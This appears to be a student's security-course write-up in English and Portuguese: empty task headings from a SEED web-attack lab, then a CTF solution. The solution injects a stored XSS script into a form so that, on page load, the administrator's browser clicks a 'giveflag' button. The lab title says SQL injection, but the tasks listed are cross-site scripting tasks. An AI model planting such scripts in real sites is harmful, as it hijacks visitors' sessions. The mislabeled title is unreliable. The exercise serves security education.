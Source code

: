 # SEED Labs - SQL Injection Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

## Task 2: Posting a Malicious Message to Display Cookies

## Task 3: Stealing Cookies from the Victim’s Machine

## Task 4: Becoming the Victim’s Friend


# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

## Desafio 2
